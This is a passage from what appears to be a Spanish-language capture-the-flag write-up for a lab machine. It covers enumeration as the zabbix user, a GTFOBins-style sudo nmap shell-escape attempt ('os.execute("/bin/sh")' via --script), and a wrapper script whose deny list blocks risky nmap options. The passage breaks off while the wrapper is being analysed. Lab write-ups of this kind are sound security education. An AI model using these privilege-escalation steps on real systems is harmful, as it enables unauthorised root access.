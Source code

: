 Y después de unos segundos conseguimos acceso a la máquina víctima como el usuario `zabbix`.
```console
zabbix@unrested:/$ id
uid=114(zabbix) gid=121(zabbix) groups=121(zabbix)
```

`zabbix` no tiene la flag de usuario, y viendo que existe otro usuario llamado `matthew` supongo que el tendrá una de las flags.
```console
zabbix@unrested:/$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
matthew:x:1000:1000:,,,:/home/matthew:/bin/bash
```
# Privilege Escalation
Vemos que podemos ejecutar `nmap` como cualquier usuario y sin contraseña.
```console
zabbix@unrested:/home$ sudo -l
Matching Defaults entries for zabbix on unrested:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User zabbix may run the following commands on unrested:
    (ALL : ALL) NOPASSWD: /usr/bin/nmap *
```

Vemos en [GTFOBins](https://gtfobins.github.io/gtfobins/nmap/#sudo) que hay formas de escalar privilegios con `nmap`, pero al probarlo...
```console
zabbix@unrested:/home$ TF=$(mktemp)
zabbix@unrested:/home$ echo 'os.execute("/bin/sh")' > $TF
zabbix@unrested:/home$ sudo /usr/bin/nmap --script=$TF
Script mode is disabled for security reasons.
```

Entonces revisando, resulta que el fichero `/usr/bin/nmap` no es el binario original, es un script que envuelve el verdadero `nmap` que se encuentra en `/usr/bin/nmap.original`
```console
zabbix@unrested:/home$ file /usr/bin/nmap
/usr/bin/nmap: Bourne-Again shell script, ASCII text executable
```

Este es el script.
```bash
#!/bin/bash

#################################
## Restrictive nmap for Zabbix ##
#################################

# List of restricted options and corresponding error messages
declare -A RESTRICTED_OPTIONS=(
    ["--interactive"]="Interactive mode is disabled for security reasons."
    ["--script"]="Script mode is disabled for security reasons."
    ["-oG"]="Scan outputs in Greppable format are disabled for security reasons."
    ["-iL"]="File input mode is disabled for security reasons."
)

# Check if any restricted options are used
for option in "${!RESTRICTED_OPTIONS[@]}"; do
    if [[ "$*" == *"$option"* ]]; then
        echo "${RESTRICTED_OPTIONS[$option]}"
        exit 1
    fi
done

```